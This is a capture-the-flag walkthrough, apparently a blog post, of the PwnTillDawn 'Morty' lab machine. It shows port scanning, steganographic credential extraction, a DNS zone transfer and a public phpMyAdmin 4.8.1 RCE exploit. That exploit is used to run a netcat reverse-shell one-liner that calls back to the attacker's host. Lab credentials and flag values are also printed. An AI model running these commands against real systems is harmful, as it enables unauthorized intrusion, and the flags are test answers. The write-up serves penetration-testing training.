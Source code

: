 ```yaml
---
categories: [PwnTillDawn]
tags: [Public Exploit, PrivEsc, subdomain]
image:
  path: /Vulnhub-Files/img/Morty/Untitled.png
  alt: Morty -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.57
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-05 16:22 IST
Nmap scan report for 10.150.150.57
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

On port 80 I found directory Listing which consist of a file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Morty/Untitled%202.png)

After setting the `/etc/hosts` file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%203.png)

Now lets use this Web Page picture password in SSH , but no luck so I used this password in this picture to extract some data and I got it with this Password : `Fl4sk#!` →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ steghide extract -sf screen.jpeg
Enter passphrase: 
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```

Now again I tried for SSH but no luck , what to do →

After sometime I looked for subdomain or subdomains and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ dig axfr @10.150.150.57 mortysserver.com 

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.150.150.57 mortysserver.com
; (1 server found)
;; global options: +cmd
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.	900	IN	NS	10.150.150.57.
rickscontrolpanel.mortysserver.com. 900	IN A	10.150.150.57
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 187 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Sat Aug 05 16:48:59 IST 2023
;; XFR size: 4 records (messages 1, bytes 212)
```

Now I have 2 subdomains →

Lets look at them →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%204.png)

```bash
FLAG1=921e4db975bda77543cfe83fbe176d15e09ce7e2
```

Now I used the rick credentials and got logged in and got the 2nd Flag too →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%205.png)

```bash
FLAG2=e39c995fbf614c5c38ca7343f59cc310e5880251
```

Now I searched the phpmyAdmin exploit and I got it →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ searchsploit phpMyAdmin 4.8.1
----------------------------------------------------------------------
 Exploit Title                                                                                |  Path
----------------------------------------------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                   | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                   | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                                                | php/webapps/50457.py
----------------------------------------------------------------------
Shellcodes: No Results
```

Now lets use the RCE exploit in this case →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' whoami  
www-data
```

Since it is working so lets upload the reverse shell script here →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.66.67.202 4444 >/tmp/f'
```

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.66.67.202] from (UNKNOWN) [10.150.150.57] 40096
/bin/sh: 0: cant access tty; job control turned off
$ 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ whoami
whoami
www-data
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```

Now I got the last FLAG →

```bash
www-data@morty:/home/morty$ cat FLAG3.txt
cat FLAG3.txt
73ce6cecfc1109f1e43d379fd9922dcc699af321
www-data@morty:/home/morty$
```

And I do not get to root since it doesnt give anything to get me to root so finish !!